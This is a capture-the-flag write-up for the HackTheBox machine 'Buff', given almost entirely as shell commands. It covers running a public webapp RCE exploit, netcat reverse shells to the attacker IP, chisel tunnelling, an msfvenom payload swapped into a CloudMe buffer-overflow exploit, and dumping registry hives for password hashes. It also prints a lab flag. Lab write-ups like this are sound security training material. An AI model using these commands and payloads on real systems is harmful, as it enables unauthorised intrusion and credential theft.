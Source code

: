 # buff

Buff ran on `10.10.10.198`. My IP was `10.10.14.69`

<details>
<summary>used techniques</summary>

* php webapp exploit to get a webshell
* transferring files via impacket samba server
* reverse shell via netcat
* rebinding a local port via chisel
* finding an exploit with winpeas
* privilege escalation with a buffer overflow

</details>

> enumeration with Kali

```sh
openvpn 00be.ovpn # connect to the network.
ping 10.10.10.198 # make sure Buff is up.

cd /root/projects && mkdir buff
cd buff

echo '10.10.10.198 buff' >> /etc/hosts
sup 10.10.10.198 # or buff
# as soon as one scan is done, open new terminal and run:
so # sets p (ports) and h (host) variable from scan result.

webp=8080 # where we foud a webserver.
tail -F dirb.log | grep --line-buffered ^== # blocking.
dirb http://$h:$webp -o dirb.log # look for interesting folders.

# in the kali VM we can reach the vuln box:
# (via the openvpn connection)
curl 10.10.10.198:8080 # works.

# If we want to use the VM host to browse it:
# on the host we will use local port forwarding:
h=10.10.10.198
p=8080
ssh -N kali -L localhost:80:$h:$webp
# now we can browse it with a browser under: http://localhost/ on the VM host.
# use Wappalyzer.
# browse around -> Contact
#   -> made using Gym Management Software 1.0

searchsploit gym management # systems, not software!
# took me a bit to figure out the different name.
# https://www.exploit-db.com/exploits/48506

# Gym Management System 1.0 - Unauthenticated Remote Code Execution | php/webapps/48506.py
cp /usr/share/exploitdb/exploits/php/webapps/48506.py .
```

> getting a foothold with Kali

```sh
# exploit the webapp for a webshell (a weird one):
rlwrap python2 48506.py http://$h:$webp/
# rlwrap makes this much more bearable but we still can't traverse directories.
# for missing requirements: see the main readme.
```

> enumeration on Buff via webshell

```sh
dir # =ls
  # all the tools people leave laying around...
whoami /all # =id
  # buff\shaun
systeminfo # =uname
  # Win 10
  # x64
set # =env
  # userdomain: BUFF
tasklist # =ps
ipconfig /all # =ifconfig
```

> on Kali

```sh
mkdir share && cd share

# git files:
cp $(locate nc.exe) . # don't forget about updatedb when using locate!
cp /opt/chisel*win* chisel.exe # does not come with Kali.

impacket-smbserver share . -smb2support# blocking.
# alternatively deposit files via a webserver.
rlwrap nc -nlvp 42424 # blocking. will open cmd.exe for a proper reverse shell in a bit.
# rlwrap also gives us a reverse search history!
```

> more enumeration on Buff via webshell

```sh
# copy netcat to Buff.
copy \\10.10.14.69\\share\\nc.exe .
copy \\10.10.14.69\\share\\chisel.exe .

# let's get a proper shell!
nc.exe 10.10.14.69 42424 -e cmd.exe
# alternatives: chisel.exe, plink.exe
# you don't even need to download netcat:
\\10.10.14.69\\share\\nc.exe 10.10.14.69 42424 -e cmd.exe # better!

# or from kali:
curl 'http://buff:8080/upload/kamehameha.php?telepathy=nc.exe%2010.10.14.69%2042424%20-e%20cmd'
```

> on Buff via proper reverse shell

```sh
# from proper shell.
dir
cd ../../../../../../..
robocopy /e xampp \\10.10.14.69\\share # takes forever.
# search for sql lines with: ag sql --color | less

# ---

# while that runs open a second webshell and
# upgrade it via reverse shell method.

cd ../../../../..
dir users
cd users/shaun/desktop
type user.txt
# User flag:
# 5302b97d72d2fd625f1d2d0606ba2d5a
copy user.txt \\10.10.14.69\\share

cd %temp%
mkdir oobe # let's create our own little folder!
cd oobe

# todo: copy this to your kali share folder, then:
copy \\10.10.14.69\\share\\winpeas.exe .
winpeas > winpeas.log

systeminfo > systeminfo.log
tasklist /v > tasklist.log
netstat -aon > netstat.log
# netstat -aon | findstr LISTEN | findstr 127

copy *.log \\10.10.14.69\\share /y
```

> take a look at the logs on Kali

```sh
# check out the winpeas log:
less -R winpeas.log # read it yourself.
grep CVE --binary-files=text winpeas.log # get all CVEs.

# this seems a bit redundant after winpeas:
python /opt/Windows-Exploit-Suggester/windows-exploit-suggester.py \
 --database 2020-10-18-mssb.xls \
 --systeminfo sysminfo.log \
 > exploits.log

grep -i listening netstat.log # careful, only for english versions!
```

I think at this point you are supposed to find the icloudme setup file
in the download folder and deduce that one of the locally bound services
is just that. I did not, had to look up a hint.

iCloudme 1.11.2 is vulnerable to this exploit:
* https://www.exploit-db.com/exploits/48389

> listen on Kali

```sh
/opt/chisel_1.7.1_linux_386 server --port 12345 --reverse
```

> connect from Buff

```sh
chisel.exe client 10.10.14.69:12345 R:8888:127.0.0.1:8888
```

> on Kali
```sh
nc -lnvp 3667 # for reverse shell.

# we don't want to launch the calculator so let's update the payload:
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.69 LPORT=3667 -b '\x00\x0A\x0D' -f python -v payload > payload
cp 48389.py 48389_new-payload.py

# replace the payload in our new copy.

# run it:
python2 48389_new-payload.py
# now we have a root shell!
```


> for fun: dump hashes as admin
```sh
# as windows admin:
reg.exe save hklm\sam sam.reg
reg.exe save hklm\security security.reg
reg.exe save hklm\system system.reg

# on kali:
impacket-secretsdump -security security.reg -sam sam.reg -system system.reg LOCAL > hashes.txt
```
